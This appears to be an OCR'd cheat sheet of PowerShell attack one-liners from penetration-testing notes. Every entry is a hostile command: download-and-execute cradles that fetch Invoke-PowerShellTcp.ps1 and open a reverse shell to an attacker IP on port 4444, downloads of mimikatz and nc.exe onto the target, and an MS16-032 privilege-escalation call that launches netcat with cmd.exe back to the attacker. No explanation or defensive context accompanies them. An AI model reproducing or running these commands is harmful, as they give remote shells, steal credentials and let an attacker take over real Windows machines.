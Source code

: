 -   powershell.exe \"IEX(New-Object
    > Net.WebClient).downloadString(\'[[http://192.168.45.217/Invoke-PowerShellTcp.ps1]{.underline}](http://192.168.119.161/Invoke-PowerShellTcp.ps1)\')\"

-   powershell iex (New-Object
    > Net.WebClient).DownloadString(\'http://192.168.1.3/Invoke-PowerShellTcp.ps1\');Invoke-PowerShellTcp
    > -Reverse -IPAddress 192.168.1.3 -Port 4444

-   

Add at end of line Invoke-PowerShellTcp -Reverse -IPAddress
192.168.119.161 -Port 4444

-   powershell.exe \"IEX(New-Object
    > Net.WebClient).downloadString(\'[[http://192.168.119.180:8000/41020.exe]{.underline}](http://192.168.119.180:8000/41020.exe)\')\"

```{=html}
<!-- -->
```
-   powershell -c \"(new-object
    > System.Net.WebClient).DownloadFile(\'http://[[192.168.119.153]{.underline}](http://192.168.119.161/Invoke-PowerShellTcp.ps1)/Invoke-Mimikatz.ps1\',
    > \'c:\\Users\\Invoke-mimikittenz.ps1\')\"

```{=html}
<!-- -->
```
-   powershell -c \"(new-object
    > System.Net.WebClient).DownloadFile(\'http://175.12.80.10:8000/mimikatz.exe\',
    > \'c:\\temp\\mimikatz.exe\')\"

```{=html}
<!-- -->
```
-   powershell -c \"(new-object
    > System.Net.WebClient).DownloadFile(\'http://192.168.119.180/nc.exe\',
    > \'c:\\Users\\Public\\Downloads\\nc.exe\')\"

```{=html}
<!-- -->
```
-   C:\\Windows\\sysnative\\WindowsPowershell\\v1.0\\powershell.exe iex
    > (New-Object
    > Net.WebClient).DownloadString(\'http://192.168.119.180/Invoke-MS16032.ps1\');
    > Invoke-MS16032 -Command \'C:\\Users\\Public\\Downloads\\nc.exe -e
    > C:\\Windows\\Sytem32\\cmd.exe 192.168.119.180 4444\'

```{=html}
<!-- -->
```
-   C:\\Windows\\sysnative\\WindowsPowershell\\v1.0\\powershell.exe iex
    > (New-Object
    > Net.WebClient).DownloadString(\'[[http://192.168.119.180/Invoke-MS16032.ps1]{.underline}](http://192.168.119.180/Invoke-MS16032.ps1)\')"
    > -bypass executionpolicy
